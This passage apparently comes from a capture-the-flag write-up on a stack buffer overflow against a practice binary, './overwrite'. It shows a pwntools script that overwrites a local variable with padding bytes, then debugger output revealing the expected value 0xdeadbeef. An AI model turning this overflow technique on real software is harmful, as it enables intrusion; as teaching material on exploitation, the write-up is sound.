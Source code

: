 ```

---- LENGTH 33
[+] Starting local process './overwrite': pid 15727
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
[+] Receiving all data: Done (14B)
[*] Process './overwrite' stopped with exit code 0 (pid 15727)
 12340041
...
```

As you can see after 32 dummy bytes the output variable has been modified.

To confirm we can create a exploit to control de variable.

```python
from pwn import *
io = process('./overwrite')
payload = 32 * b'A' + b'BBBB'
io.sendlineafter(b'?', payload)
print(io.recvall().decode())
```
Output:

```
$ python3 myexploit.py
[+] Starting local process './overwrite': pid 20032
[+] Receiving all data: Done (14B)
[*] Process './overwrite' stopped with exit code 0 (pid 20032)
 42424242
...
```

Once we fully control the variable we need to reverse the binary in order to find which value we need to set into.

After setting a breakpoint in the direction where the variable is compared we can see the desired value.

```
────────────────────────────────────────────────[ DISASM / i386 / set emulate on ]─────────────────────────────────────────────────
 ► 0x80491e0 <do_input+78>     cmp    dword ptr [ebp - 0xc], 0xdeadbeef
   0x80491e7 <do_input+85>     jne    do_input+148                     <do_input+148>
    ↓
   0x8049226 <do_input+148>    sub    esp, 8
   0x8049229 <do_input+151>    push   dword ptr [ebp - 0xc]
   0x804922c <do_input+154>    lea    eax, [ebx - 0x1fe7]
   0x8049232 <do_input+160>    push   eax
   0x8049233 <do_input+161>    call   printf@plt                     <printf@plt>
 
   0x8049238 <do_input+166>    add    esp, 0x10
   0x804923b <do_input+169>    sub    esp, 0xc
   0x804923e <do_input+172>    lea    eax, [ebx - 0x1fe1]
   0x8049244 <do_input+178>    push   eax

```
